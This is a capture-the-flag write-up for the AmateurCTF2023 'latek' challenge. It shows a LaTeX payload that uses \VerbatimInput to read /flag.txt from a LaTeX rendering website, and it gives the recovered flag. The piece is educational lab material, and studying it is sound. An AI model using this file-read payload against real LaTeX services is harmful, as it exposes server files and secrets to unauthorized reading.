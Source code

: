 ```yaml
---
title: CTFs | AmateurCTF2023 | latek
author: BatBato
date: 2023-07-19
categories: [CTFs, AmateurCTF2023, latek]
tags: [CTF, AmateurCTF2023, latek]
permalink: /CTFs/AmateurCTF2023/latek
---
```


# Latek

I haven't tried much in this CTF, so this is the only WU that I will write. For this challenge, we need to recover the `/flag.txt` file.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/a705bc02-0b0e-48c1-b1d2-63477a436583)

As we can see, we have access to a website that print what is written in the `latex` input on the left:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c405e76d-5e52-4ce3-be12-4756bb6456fd)

I tried a basic `/input("/flag.txt")`, but this didn't work as expected. After a bit of research, I found this [StackOverflow](https://tex.stackexchange.com/questions/85200/include-data-from-a-txt-verbatim) post. I then used the following payload:

```latek
\documentclass{article}
\usepackage[dvipsnames]{xcolor}
\usepackage{fancyvrb}
% redefine \VerbatimInput
\RecustomVerbatimCommand{\VerbatimInput}{VerbatimInput}%
{fontsize=\footnotesize,
 %
 frame=lines,  % top and bottom rule only
 framesep=2em, % separation between frame and text
 rulecolor=\color{Gray},
 %
 label=\fbox{\color{Black}data.txt},
 labelposition=topline,
 %
 commandchars=\|\(\), % escape character and argument delimiters for
                      % commands within the verbatim
 commentchar=*        % comment character
}
\begin{document}
\VerbatimInput{/flag.txt}
\end{document}
```

And this gave me the flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/09f36f5e-e44e-45af-8c19-ffa21ced5f35)
